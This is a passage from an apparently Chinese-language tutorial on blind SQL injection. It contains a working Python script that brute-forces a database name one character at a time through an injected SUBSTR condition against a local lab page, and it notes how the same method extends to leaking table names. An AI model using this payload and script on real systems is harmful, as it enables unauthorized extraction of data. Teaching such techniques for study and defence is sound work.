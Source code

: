 ```py
import requests

response = requests.post(url, data={'username': payload})
if not '输入的用户名不存在' in response.text:
    print(f'第{i}个字符是{char}')
```

最终的exp

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 数据库名长度
length = 4
# 字符集
charset = string.ascii_letters + string.digits

for i in range(1, length + 1):
    for char in charset:
        payload = f"1' AND SUBSTR(DATABASE(),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            print(f'第{i}个字符是{char}')
```

由于字符集中包含大小写字母，而数据库名对大小写不敏感，因此结果中会同时出现大小写字母

> <img src="./IMG3/9.png">

*解决方法也很简单，这里留给读者自己解决*

###### 泄露数据表

泄露数据表的步骤与泄露数据库相同，只需要将`SUBSTR()`函数的第一个参数改为一个查询语句即可

> <img src="./IMG3/8.png">
